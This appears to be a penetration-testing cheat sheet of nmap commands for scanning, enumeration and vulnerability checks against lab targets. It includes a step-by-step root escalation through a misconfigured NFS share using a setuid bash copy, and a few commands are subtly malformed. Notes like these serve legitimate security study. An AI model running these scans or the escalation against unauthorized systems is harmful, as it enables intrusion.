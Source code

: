
### Basic command
``` bash
sudo nmap 10.10.11.14
```

### Aggressive scan / Extensive scan
``` bash
sudo nmap -T4 -A -v 10.10.11.14
```

### Smb enum scan
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.95.77
```
###  Scan all port
```c
sudo nmap -p- --min-rate=10000 -oG broker-allport 10.10.11.243
```

```bash
nmap -A -p- -T4 10.129.131.95
```

```
sudo nmap -sC -sV -A -oA solarlab 10.129.60.6 -v
```

### Enumerate the directories
```
sudo nmap -sV --script=http-enum 10.10.11.243
```

### Discover the hostnames that resolve the targeted domain
```
sudo nmap --script hostmap-bfk -script-args hostmap-bfk.prefix=hostmap- 10.10.11.243
```

### Perform an HTTP trace on the targeted domain
```
sudo nmap -p80 --script http-waf-detect 10.10.11.243
```

### Host Discovery using ARP
```
sudo  nmap -PR -sn 192.168.0.0/24 10.10.11.243
```

### Host Discovery using ICMP
```
sudo  nmap -PE -sn 192.168.0.0/24
```

```
sudo  nmap -PP -sn 192.168.0.0/24
```

```
sudo  nmap -PM -sn 192.168.0.0/24
```

### Host Discovery using TCP and UDP
```
sudo nmap -PS -sn 192.168.0.0/24      # TCP SYN
```

```
sudo nmap -PA -sn 192.168.0.0/24      # TCP ACK
```

```
sudo nmap -PU -sn 192.168.0.0/24      # UDP
```

### Command to get only ports number
```
┌──(voldemort@ideapad)-[~/thm]
└─$ nmap 10.17.104.140 -p- | grep "^[0-9]" | awk -F'/' '{print $1}' | tr '\n' ',' | sed 's/,$//'

80,111,2049,8834,17500,40349,44879,48467,50031,52047,57621,59277
```

### Identify all active hosts in a network
```bash
nmap -sP <target_IP>/Subnet
```

### Do a Stelth Scan, Invading firewall, IDS/IPS
```bash
nmap -sS -p 80, 443 <target_IP>/Subnet
```

### Identify the OS of the machine hosting a DB
```bash
nmap -p3306,1433 IP/subnet
```

### Locate IP address of the machine with RDP open port
```bash
nmap -Pn -p -sV 3389 <target_IP>
```

### Find FQDN of domain controller

FQDN (**FQDN = Hostname + Domain**) an example can be: mail.example.com mail (hostname), example.com (domain).

Scan subnet or target filtering for LDAP port (389):

* `nmap -p389 -sV -iL <target_list>` -> if we've more targets IP

or

* `nmap -p389 -sV <target_IP>`

or

* `nmap -p 389 --script ldap-rootdse <target_IP>`

If LDAP port is filtered or closed, we should try to scan host using following parameters:

* `nmap -Pn -A <target_IP>`

In alternative we can find following ports opened: 88 (Kerberos), 636 (LDAPS), 3268 (LDAP Global).

Running nmap command we'll retrieve info about Domain and Host name:

* Domain: pentester.team Service Info: Host: DC;
* then FQDN = DC.pentester.team

### Identify the number of hosts that are alive

to checks hosts up: 
```bash 
nmap -sn IP/Subnet
```

### Identify potential vulnerabilities of services

```bash 
 nmap -Pn --script vuln <target_IP>
```

### Perform vertical privilege escalation of a root user, and enter the flag

Exploiting misconfigured NFS (port 2049)

* `nmap -sV —p 2049 IP/Subnet`
* `sudo apt-get install nfs-common`
* `nmap -sV —script=nfs-showmount <Target_IP>`
* check available mounts: `showmount -e <Target_IP>` -> we will see /home directory
* `mkdir /tmp/nfs`
* `sudo mount -t nfs 10.10.1.9:/home /tmp/nfs`&#x20;
* `cd /tmp/nfs`
* `sudo cp /bin/bash .`
* `sudo chmod +s bash` -> it will be highlighted in red
* `ls -la`
* `sudo df -h`
* `sudo chmod +s bash`&#x20;

after them, In another terminal:

* Access to target using SSH
* `./bash -p` and we're root!
* `cd /home`
* `ls -la`
* Find the flag: `find / -name "*.txt" -ls 2> /dev/null`

### Promiscuous Detection Tools
*Keywords: Wireshark, Detect, sniffer
```bash
nmap --script=sniffer-detect {target ip/ range of ip}
```